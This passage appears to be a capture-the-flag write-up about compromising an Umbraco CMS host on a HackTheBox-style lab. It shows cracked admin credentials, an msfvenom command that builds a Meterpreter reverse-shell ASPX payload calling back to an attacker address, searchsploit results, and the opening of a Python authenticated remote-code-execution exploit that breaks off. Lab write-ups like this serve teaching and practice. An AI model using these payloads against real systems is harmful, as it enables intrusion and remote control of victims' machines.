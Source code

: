 With [CrackStation][CrackStation] is cracked the hash, so the credentials are:

`admin@htb.local` / `baconandcheese`

We can log in with them and then generate a reverse shell with [metasploit][msf]:

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.222 LPORT=9999 -f aspx > shell.aspx
```

But afterward I saw `.aspx` extension is disallowed:

```
$ cat dossier/Config/umbracoSettings.config| grep disallowedUploadFiles
    <disallowedUploadFiles>ashx,aspx,ascx,config,cshtml,vbhtml,asmx,air,axd,swf,xml,xhtml,html,htm,svg,php,htaccess</disallowedUploadFiles>
```

So uploading a webshell through the webUI won't be possible.

## HTTP exploitation

We can look for an Umbraco exploit to get a RCE:

```
$ searchsploit umbraco
-------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                              |  Path
                                                                                            | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------- ----------------------------------------
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution                                  | exploits/aspx/webapps/46153.py
Umbraco CMS - Remote Command Execution (Metasploit)                                         | exploits/windows/webapps/19671.rb
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting                                  | exploits/php/webapps/44988.txt
-------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
```py

import requests
import re
import argparse

from bs4 import BeautifulSoup

parser = argparse.ArgumentParser(prog='exploit.py',
    description='Umbraco authenticated RCE',
    formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=80))
parser.add_argument('-u', '--user', metavar='USER', type=str,
    required=True, dest='user', help='username / email')
parser.add_argument('-p', '--password', metavar='PASS', type=str,
    required=True, dest='password', help='password')
parser.add_argument('-i', '--host', metavar='URL', type=str, required=True,
    dest='url', help='root URL')
parser.add_argument('-c', '--command', metavar='CMD', type=str, required=True,
    dest='command', help='command')
parser.add_argument('-a', '--arguments', metavar='ARGS', type=str, required=False,
    dest='arguments', help='arguments', default='')
args = parser.parse_args()

# Payload
```